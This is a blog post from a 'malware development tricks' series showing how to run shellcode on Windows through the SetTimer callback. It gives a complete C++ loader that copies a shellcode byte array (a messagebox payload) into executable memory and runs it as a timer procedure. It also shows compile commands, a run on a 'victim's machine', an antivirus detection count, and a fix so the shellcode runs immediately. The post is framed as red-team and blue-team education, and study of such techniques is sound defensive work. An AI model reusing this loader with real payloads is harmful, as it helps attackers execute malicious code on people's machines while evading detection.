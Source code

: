 ```yaml
---
title:  "Malware development trick - part 31: Run shellcode via SetTimer. Simple C++ example."
date:   2023-06-04 03:00:00 +0300
header:
  teaser: "/assets/images/98/2023-06-04_13-37.png"
categories:
  - malware
tags:
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!        

![trick](/assets/images/98/2023-06-04_13-37.png){:class="img-responsive"}      

This article is the result of my own research into the next interesting trick: run shellcode via `SetTimer` function.      

### SetTimer

The `SetTimer` function is a part of the Windows API. It is used to create a timer with a specified time-out value.     

Here is its basic syntax:    

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Where:

- `hWnd`: A handle to the window to be associated with the timer. This window must be owned by the calling thread. If a `NULL` value for `hWnd` is passed in along with an `nIDEvent` of an existing timer, that old timer will be replaced by the new one.      
- `nIDEvent`: A nonzero timer identifier. If the hWnd parameter is `NULL`, and the `nIDEvent` does not match an existing timer then it is ignored and a new timer ID is generated. If the `hWnd` is not `NULL` and the window specified by hWnd already has a timer with the value nIDEvent, then the existing timer is replaced by the new timer. When `SetTimer` replaces a timer, the timer is reset.     
- `uElapse`: The time-out value, in milliseconds.      
- `lpTimerFunc`: A pointer to the function to be notified when the time-out value elapses. If this parameter is `NULL`, the system posts a `WM_TIMER` message to the application queue. This message is processed by the window procedure.      

### practical example

So, what's the trick? Just take a look at this (`hack.c`):      

```cpp
/*
 * hack.cpp - run shellcode via SetTimer. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

As you can see, this code seems to attempt to execute shellcode using the `SetTimer` Windows API function by providing it a pointer to a function `(TIMERPROC)` to be called when the timer expires.     

As usually, for simplicity I used `meow-meow` messagebox payload:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let’s go to see everything in action. Compile our "malware":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![trick](/assets/images/98/2023-06-04_13-38.png){:class="img-responsive"}      

And run in our victim’s machine:     

```powershell
.\hack.exe
```

![trick](/assets/images/98/2023-06-04_13-59.png){:class="img-responsive"}      

As you can see, everything is worked perfectly! =^..^=

Let’s go to upload `hack.exe` to VirusTotal:       

![trick](/assets/images/98/2023-06-04_14-01.png){:class="img-responsive"}      

**So, 19 of 71 AV engines detect our file as malicious.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

But, I think we have an issue in our dirty PoC code.      

The `SetTimer` function requires the `uElapse` parameter to be set. This parameter represents the time-out value, in milliseconds. If it's set to `NULL` or `0`, the function will not set the timer. So, if we want to execute shellcode immediately, we need to set `uElapse` to `1`. Something like this:      

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Set uElapse to 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Using while loop to keep the message pump running
  DispatchMessageA(&msg);
}
```

This code will create a timer that expires almost immediately and calls our shellcode as a callback function. Of course, note that this kind of technique can be detected as malicious by antivirus software due to the anomalous behavior of executing code through a timer callback.        

I haven't seen this trick in the real-life malware and APT attacks yet. I hope this post spreads awareness to the blue teamers of this interesting malware dev technique, and adds a weapon to the red teamers arsenal.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](/tutorial/2021/09/20/malware-injection-2.html)        
[source code in github](https://github.com/cocomelonc/2023-06-04-malware-tricks-31)           

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
